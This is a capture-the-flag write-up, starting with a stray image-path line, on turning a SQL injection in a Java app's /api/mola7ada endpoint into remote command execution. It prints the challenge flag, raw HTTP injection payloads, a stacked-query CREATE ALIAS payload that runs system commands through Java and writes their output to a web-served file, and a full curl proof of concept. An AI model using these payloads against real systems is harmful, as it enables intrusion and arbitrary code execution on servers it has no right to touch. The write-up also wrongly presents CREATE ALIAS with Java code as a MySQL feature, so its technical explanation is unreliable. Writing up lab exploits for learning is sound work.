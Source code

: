 # **Write-Up: Exploiting SQL Injection to Execute Arbitrary Code**

## **Challenge Description**
Pentesting isn't a solomente. Gather your team, create alias, and take control of the world. Java may not be my favorite language, but I always choose coffee every day.

## **FLAG**

CTF{khirna_maydir_ghirna_challenge_impermiable_hbibi}

---

## **Vulnerability Analysis**
### **1. Vulnerable Endpoint**
The endpoint `/api/mola7ada` is vulnerable to SQL injection due to improper handling of user input in the `name` parameter. The backend code directly concatenates user input into the SQL query without proper sanitization or parameterization.

### **2. Exploitable Functionality**
The `CREATE ALIAS` technique allows an attacker to define a custom function in MySQL that can execute arbitrary Java code. By exploiting the SQL injection vulnerability, an attacker can inject a payload to create an alias and execute system commands.

### **3. Prerequisites for Exploitation**
- The MySQL user must have the `CREATE` and `EXECUTE` privileges.
- The MySQL server must support user-defined functions (UDFs).

---

## **Exploitation Steps**

### **Step 1: Identify the Vulnerability**
1. **Test for SQL Injection:**
   Send a payload to the `/api/mola7ada` endpoint to test for SQL injection:
   ```
   POST /api/mola7ada HTTP/1.1
   Host: 127.0.0.1:1337
   Content-Type: application/x-www-form-urlencoded
   Content-Length: 25

   name=test' OR 1=1; --
   ```

   If the application returns all rows from the `mola7adat` table, SQL injection is confirmed.

2. **Determine the Number of Columns:**
   Use the `ORDER BY` clause to determine the number of columns in the query:
   ```
   POST /api/mola7ada HTTP/1.1
   Host: 127.0.0.1:1337
   Content-Type: application/x-www-form-urlencoded
   Content-Length: 25

   name=test' ORDER BY 3; --
   ```

   If the application returns a valid response, there are at least 3 columns.

### **Step 2: Exploit the Vulnerability**
1. **Inject a `CREATE ALIAS` Payload:**
   Use the following payload to create an alias that executes arbitrary Java code:
   ```
   POST /api/mola7ada HTTP/1.1
   Host: 127.0.0.1:1337
   Content-Type: application/x-www-form-urlencoded
   Content-Length: 500

   name=test'; CREATE ALIAS EXECVE AS 'String execve(String cmd) throws java.io.IOException { Process process = Runtime.getRuntime().exec(cmd); java.io.InputStream inputStream = process.getInputStream(); java.io.FileOutputStream fileOutputStream = new java.io.FileOutputStream("/app/target/classes/static/hola.html"); byte[] buffer = new byte[1024]; int bytesRead; while ((bytesRead = inputStream.read(buffer)) != -1) { fileOutputStream.write(buffer, 0, bytesRead); } fileOutputStream.close(); inputStream.close(); return "Output written to /app/target/classes/static/hola.html"; }'; --
   ```

   This payload creates an alias `EXECVE` that executes a system command and writes the output to a file.

2. **Execute the Alias:**
   Use the following payload to execute the alias and run a system command:
   ```
   POST /api/mola7ada HTTP/1.1
   Host: 127.0.0.1:1337
   Content-Type: application/x-www-form-urlencoded
   Content-Length: 50

   name=test'; CALL EXECVE('ls /'); --
   ```

   This payload executes the `ls /` command and writes the output to `/app/target/classes/static/hola.html`.

### **Step 3: Retrieve the Output**
1. **Access the Output File:**
   The output of the command is written to `/app/target/classes/static/hola.html`. Access this file via the web server:
   ```
   http://127.0.0.1:1337/hola.html
   ```

2. **Extract the Flag:**
   If the flag is located in the root directory, the `ls /` command will list it, and the output will be available in `hola.html`.

---

## **Proof of Concept (PoC)**
Here’s a sample PoC using `curl` to exploit the vulnerability:

```bash
# Step 1: Create the alias
curl -X POST \
  http://127.0.0.1:1337/api/mola7ada \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -d "name=test'; CREATE ALIAS EXECVE AS 'String execve(String cmd) throws java.io.IOException { Process process = Runtime.getRuntime().exec(cmd); java.io.InputStream inputStream = process.getInputStream(); java.io.FileOutputStream fileOutputStream = new java.io.FileOutputStream(\"/app/target/classes/static/hola.html\"); byte[] buffer = new byte[1024]; int bytesRead; while ((bytesRead = inputStream.read(buffer)) != -1) { fileOutputStream.write(buffer, 0, bytesRead); } fileOutputStream.close(); inputStream.close(); return \"Output written to /app/target/classes/static/hola.html\"; }'; --"

# Step 2: Execute the alias
curl -X POST \
  http://127.0.0.1:1337/api/mola7ada \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -d "name=test'; CALL EXECVE('ls /'); --"
```
